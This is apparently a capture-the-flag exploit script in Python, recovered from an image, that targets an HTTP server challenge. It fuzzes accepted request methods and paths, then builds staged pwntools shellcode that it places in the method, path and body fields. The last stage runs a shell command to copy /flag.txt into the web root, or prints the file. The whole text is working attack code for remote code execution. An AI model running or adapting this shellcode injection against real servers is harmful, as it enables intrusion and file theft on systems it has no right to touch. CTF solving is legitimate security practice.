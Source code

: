 ```python
            b"Host: localhost\r\n"
            b"\r\n"
        )
        resp = send_raw_http_request(HOST, PORT, req)
        print(resp)
        if b"HTTP/1.1 400 Bad Request" not in resp:
            print(f"allowed abs_path: {c}")
            allowed.append(c)
        else:
            print(f"invalid abs_path: {c}")
            invalid.append(c)

    return (allowed, invalid)

if __name__ == "__main__":
    HOST = "localhost"
    PORT = 4000
    #HOST = "458bd46370b00b7b.polygod.lol" # for real challenge instance
    #PORT = 80 # for real challenge instance

    #allowed_method, invalid_method = fuzz_method()
    #print(f"allowed_method: {allowed_method}")
    #print(f"invalid_method: {invalid_method}")

    #allowed_abspath, invalid_abspath = fuzz_abspath()
    #print(f"allowed_abspath: {allowed_abspath}")
    #print(f"invalid_abspath: {invalid_abspath}")

    stage1_asm = """
    push rsp
    pop rdi
    """
    stage1_writeable_addr_rdi = asm(stage1_asm)
    print("stage1\n", disasm(stage1_writeable_addr_rdi))

    stage2_asm = """
        mov al, 0xff
        shl ax, 1
        shl ax, 1
        shl ax, 1
        shl ax, 1
        sub rdi, rax
        sub rdi, rax
        push rdi
        pop rax
        add rax, 0x50
        jmp rax
        """
    stage2_jmp_to_body = asm(stage2_asm)
    print("stage2\n", disasm(stage2_jmp_to_body))

    # init solve: overwrite index.html with flag.txt then check the website
    stage3_asm = shellcraft.execve("/bin/sh", ["sh", "-c", "cp /flag.txt /srv/index.html"])

    # post solve: just cat the flag, socat will pipe the output of polygod back to the connection
    stage3_asm = shellcraft.cat("/flag.txt")

    stage3_win = (b"\x90"*0x20)+asm(stage3_asm)
    print("stage3\n", disasm(stage3_win))

    method = stage1_writeable_addr_rdi
    abs_path = b"/" + stage2_jmp_to_body
    body = stage3_win
```